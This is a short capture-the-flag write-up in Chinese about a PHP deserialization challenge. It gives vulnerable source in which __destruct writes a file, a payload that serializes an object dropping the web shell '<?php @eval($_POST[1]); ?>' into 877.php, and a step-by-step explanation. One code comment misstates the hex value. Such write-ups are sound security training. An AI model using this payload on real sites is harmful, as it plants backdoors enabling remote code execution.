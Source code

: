 ```php
    }

    // 序列化是会判断是否存在__sleep函数，存在优先调用后再进行序列化
    public function __sleep()
    {
        $this->username = '';
        $this->password = '';
    }

    // 反序列化存在时，不会执行__wakeup
    public function __unserialize($data)
    {
        $this->username = $data['username'];
        $this->password = $data['password'];
        $this->code = $this->username . $this->password;
    }

    // 析构函数
    public function __destruct()
    {
        // 0x36 === 877
        if ($this->code == 0x36d) {
            // 落文件
            // 名字，内容
            file_put_contents($this->username, $this->password);
        }
    }
}

unserialize($_GET['vip']);
```

payload

```php
<?php
class ctfshowvip{
    public $username='877.php';
    public $password='<?php @eval($_POST[1]); ?>';
    public $code;
}
$a=new ctfshowvip();
echo serialize($a);
?>
```

这题的逻辑是：

1. 序列化后，__construct覆盖原函数
2. 执行反序列化
	1. \_\_unserialize函数存在，不执行\_\_wakeup()
	2. \_\_code=877.php\<?php @eval(\$\_POST[1]); ?\>
	3. 以数字开头，“877.php\<?php @eval(\$\_POST[1]); ?\>”转int后为877
